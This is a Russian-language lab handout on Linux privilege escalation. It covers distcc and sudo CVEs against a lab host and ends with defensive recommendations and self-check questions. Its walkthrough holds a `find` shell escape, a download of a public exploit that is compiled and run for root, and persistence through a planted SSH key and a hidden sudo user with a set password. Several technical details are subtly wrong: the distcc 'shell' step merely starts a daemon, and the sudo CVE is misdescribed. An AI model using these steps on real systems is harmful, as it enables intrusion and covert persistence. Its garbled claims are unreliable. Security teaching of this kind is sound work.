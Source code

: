 

## Цель работы  
Освоить методы эксплуатации уязвимостей в конфигурации ПО и системных сервисах для эскалации привилегий от обычного пользователя до суперпользователя (root) на Linux-системах.  

---

## Задачи работы  
- Эксплуатировать уязвимость в сервисе `distcc` (CVE-2004-2687) для получения первоначального доступа к системе.  
- Использовать уязвимость в механизме `sudo` (CVE-2017-1000367) для эскалации привилегий до root.  
- Создать устойчивый метод доступа с привилегиями суперпользователя.  

---

## Теоретическая часть  

### 1. Локальное повышение привилегий (LPE)  
**LPE (Local Privilege Escalation)** — процесс получения более высоких привилегий на уже скомпрометированной системе. Ключевые причины уязвимостей:  
- Неправильная конфигурация прав доступа (SUID/GUID биты)  
- Устаревшие версии ПО с известными уязвимостями  
- Ошибки в обработке окружения или временных файлов  
- Слабые настройки механизма sudo  

**Этапы LPE:**  
1. Получение начального доступа (обычный пользователь)  
2. Сбор информации (`sudo -l`, `find / -perm -4000`)  
3. Эксплуатация уязвимостей для получения root  

### 2. Уязвимости для эскалации привилегий  
#### 2.1 CVE-2004-2687 (distcc)  
- **Суть:** Уязвимость в системе распределённой компиляции distcc  
- **Механизм:** Позволяет выполнять произвольные команды через неаутентифицированный RPC-интерфейс  
- **Условия:** Сервис distccd запущен на порту 3632 с настройками по умолчанию  
- **Риски:** Получение доступа от имени пользователя `distcc`  

#### 2.2 CVE-2017-1000367 (sudo)  
- **Суть:** Уязвимость переполнения стека в обработчике get_process_ttyname()  
- **Механизм:** Позволяет выполнить произвольный код при запуске `sudo` с опцией `-s`  
- **Условия:** Sudo версии < 1.8.20 на системах с SELinux  
- **Риски:** Получение root-привилегий через эксплойт в памяти  

### 3. Принципы эксплуатации SUID/GUID бинарников  
**SUID (Set User ID)** — специальный флаг, заставляющий исполняемый файл запускаться с правами владельца файла. Уязвимости возникают при:  
- Наличии SUID у опасных бинарников (find, nmap, vim)  
- Возможности модификации переменных окружения (`LD_PRELOAD`)  
- Небезопасном использовании системных вызовов (`system()`, `popen()`)  

**Пример опасной команды:**  
```bash
find / -exec /bin/sh \; -quit
```

---

## Ход выполнения  
*Целевая система: Linux-сервер (IP: 10.10.5.2)*  

### Шаг 1: Эксплуатация уязвимости distcc (CVE-2004-2687)  
**Цель:** Получить первоначальный доступ к системе  
1. Сканирование портов:  
```bash
nmap -sV 10.10.5.2 -p 3632
```  
*Ожидаемый результат:* `3632/tcp open distccd distccd v1 ((GNU) 4.2.4)`  

2. Подключение к distcc:  
```bash
echo 'hello' | nc 10.10.5.2 3632
```  
3. Запуск шелла:  
```bash
distccd --daemon --no-detach --no-shuffle --log-stderr --listen 0.0.0.0 --allow 0.0.0.0/0 --command-wrapper /bin/sh
```  

### Шаг 2: Поиск векторов для LPE  
**Цель:** Обнаружить возможности для эскалации привилегий  
1. Проверка прав sudo:  
```bash
sudo -l
```  
*Пример уязвимого вывода:*  
```
User user may run the following commands on target:
    (ALL) NOPASSWD: /usr/bin/find
```  

2. Поиск SUID-бинарников:  
```bash
find / -perm -4000 -type f 2>/dev/null
```  

### Шаг 3: Эксплуатация уязвимости sudo (CVE-2017-1000367)  
**Цель:** Получить root-привилегии  
1. Скачивание эксплойта:  
```bash
wget https://www.exploit-db.com/download/42275 -O sudopwn.c
```  
2. Компиляция:  
```bash
gcc sudopwn.c -o sudopwn
```  
3. Запуск:  
```bash
./sudopwn
```  
4. Проверка прав:  
```bash
whoami  # Должно вернуть "root"
```

### Шаг 4: Создание устойчивого доступа  
**Цель:** Сохранить root-доступ после перезагрузки  
1. Добавление SSH-ключа:  
```bash
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /root/.ssh/authorized_keys
```  
2. Создание скрытого пользователя:  
```bash
useradd -m -s /bin/bash -G sudo .sysadmin
echo '.sysadmin:P@ssw0rd!' | chpasswd
```  

---

## Форма отчёта  
1. **Результаты сканирования:**  
   - Вывод Nmap для порта 3632  
   - Результат `sudo -l`  
2. **Доказательства эксплуатации:**  
   - Скриншот выполнения эксплойта sudo  
   - Вывод `id` и `whoami` после получения root  
3. **Выводы:**  
   - Критичность своевременного обновления ПО  
   - Риски неправильной настройки sudo  
   - Рекомендации:  
     - Регулярное обновление системных пакетов  
     - Аудит SUID/GUID бинарников (`find / -perm /6000 -type f`)  
     - Ограничение прав sudo через `/etc/sudoers`  

---

## Вопросы для самоконтроля  
1. Почему SUID-бинарники представляют угрозу безопасности?  
2. Как обнаружить уязвимую версию sudo в системе?  
3. Какие команды в `sudo -l` считаются опасными?  
4. Как защитить сервис distcc от несанкционированного доступа?  
5. Почему скрытые пользователи опасны для безопасности?  
6. Альтернативные методы LPE (например, через ядро).  